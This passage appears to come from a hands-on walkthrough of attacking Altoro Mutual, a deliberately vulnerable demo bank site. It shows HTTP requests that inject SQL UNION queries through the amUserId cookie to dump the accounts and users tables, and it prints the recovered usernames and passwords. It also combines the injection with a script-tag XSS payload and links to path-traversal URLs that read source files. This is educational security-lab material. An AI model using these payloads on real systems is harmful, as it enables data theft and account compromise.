 Ahhh, there we go! **Another SQL injection vulnerability!** You could now dump some data:

~~~.html
GET /bank/main.aspx HTTP/1.1
Host: demo.testfire.net
...
amUserInfo=UserName=YWRtaW4=&Password=YWRtaW4=; amUserId=2 union select accountid, acct_type from accounts;--
~~~

You could use this vulnerability to **dump the *users* table**:

~~~.html
GET /bank/main.aspx HTTP/1.1
Host: demo.testfire.net
...
amUserInfo=UserName=YWRtaW4=&Password=YWRtaW4=; amUserId=2 union select username, password from users;--
~~~

This will return:

~~~
admin admin
cclay Ali
jsmith Demo1234
sjoe frazier
sspeed Demo1234
tuser tuser
~~~

Simple, isn't it?

### XSS using cookie data

Alternatively you could combine SQLi with XSS:

~~~.html
GET /bank/main.aspx HTTP/1.1
Host: demo.testfire.net
...
amUserInfo=UserName=YWRtaW4=&Password=YWRtaW4=; amUserId=2 union select "<script>...</script>", "Injection FOUND!" from accounts;--
~~~

 [3]: http://demo.testfire.net/default.aspx?content=../bank/login.aspx.cs%EF%BF%BD.txt
 [7]: http://www.portswigger.net/burp/
 [8]: http://dornea.nu/wargames/altoro-mutual?action=AttachFile&do=get&target=login_sql_injection.png "attachment:login_sql_injection.png"
 [9]: http://demo.testfire.net/default.aspx?content=../bank/main.aspx.cs%EF%BF%BD.txt
